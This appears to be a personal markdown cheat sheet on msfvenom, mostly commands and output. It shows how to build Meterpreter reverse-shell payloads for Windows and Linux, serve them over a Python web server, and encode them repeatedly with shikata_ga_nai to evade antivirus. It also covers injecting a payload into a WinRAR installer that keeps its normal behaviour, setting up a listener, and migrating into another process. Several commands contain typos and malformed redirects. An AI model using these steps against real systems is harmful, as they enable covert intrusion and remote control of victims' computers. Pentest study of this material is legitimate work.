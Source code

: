 # 🛠️ MSFVENOM
	
	
msfvenom --list 

x64 <- 64 bit 
x86 <- 32 bit



-a <- architecture

-p payload
##Windows Examples
```bash
msfvenom -a x86 -p /windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe

msfvenom -a x64 -p /windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe
```

msfvenom --list --format

elf <- binary linux file executable


elf-so <- shared object

jar <- java file

osx-app <- mac

in linux no need to mention -a arcitecture 

> msfvenom -p /linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload32

no need to mention .elf

chmod +x payload64

msfvenom -p /linux/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload64

python3 -m http.server 8080

pythom -m SimpleHTTPServer 80

#		 ENCODEING PAYLOAD 
		
		
we can envade older AV sol by encoding our payloads

encoding is modifying payload shellcode with the objective of modifying the payload signature

msfvenom --list encoders

best <- x86/shikata_ga_nai  ploymorphic xor additive feedback encoder

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=   LPORT = ..... -e x86/shikata_ga_nai -f exe > payload
```bash
 output: Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		xB6/shikata_ga_nai succeeded with size 381 (iteration=0)
		x86/shikata_ga_nai chosen with final size 381
		Payload size: 381 bytes
		Final size of exe file: 73802 bytes
```		 
  
  
  
  more interation of encode more chance of bypassing the AV
  

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT =<PORT> -i 10 -e x86/shikata_ga_nai -f exe > payload
 
 	output:
		Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
		<86/shikata_ga_nai succeeded with size 381 (iteration=0)
		<86/shikata_ga_nai succeeded with size 408 (iteration=1)
		<86/shikata_ga_nai succeeded with size 435 (iteration=2)
		<86/shikata_ga_nai succeeded with size 462 (iteration=3)
		<86/shikata_ga_nai succeeded with size 489 (iteration=4)
		<86/shikata_ga_nai succeeded with size 516 (iteration=5)
		<86/shikata_ga_nai succeeded with size 543 (iteration=6)
		86/shikata_ga_nai succeeded with size 570 (iteration=7)
		86/shikata_ga_nai succeeded with size 597 (iteration=8)
		<86/shikata_ga_nai succeeded with size 624 (iteration=9)
		<86/shikata_ga_nai chosen with final size 624
		Payload size: 624 bytes
		Final size of exe file: 73802 bytes
  
  
  same for linux
but it is much smaller than windows payloads



#  Injecting Payloads Into Windows Portable Executables 

msfvenom -x or --template for specify custom template also use -k or --keep to save behaviour and inject payload as a new thread

BEST option winRAR executable

generate 32 bin meterpreter payload then inject it in winrar setup file

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe > ~/Download/wrar32.exe > ~/payloads/winrar.exe

sudo python3 -m http.server 8080


>msfconsole 
>use mulit/handler
> set payload window/meterpreter/reverse_tcp
 
 > run post/windows/manage/migrate
 
 why? 
 ```bash
a post-exploitation module known as "migrate," which is used in a Windows environment.
 Essentially, this tool helps move the process that a Metasploit payload is running on
into another process. And the whole idea is to dodge any interferen from Windows that
 might shut down that original process. So if you run this migration command, it might,
for instance, hop into something like a notepad.exe process and just carry on from there.
 It's like a little digital shapeshifter trick to keep things running smoothly. And from
 there, you don’t really have to sweat the details of those modules anymore. It's all
part of the fun of post-exploitation magic.
 ```
 k option 
 it mentain the original functianily of the portabel exectable and then it will execute the meterpreter payload lyeing inside the executable
 
  > msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe *-k* > ~/Download/wrar32.exe > ~/payloads/winrarnew.exe 
  
  
  
  

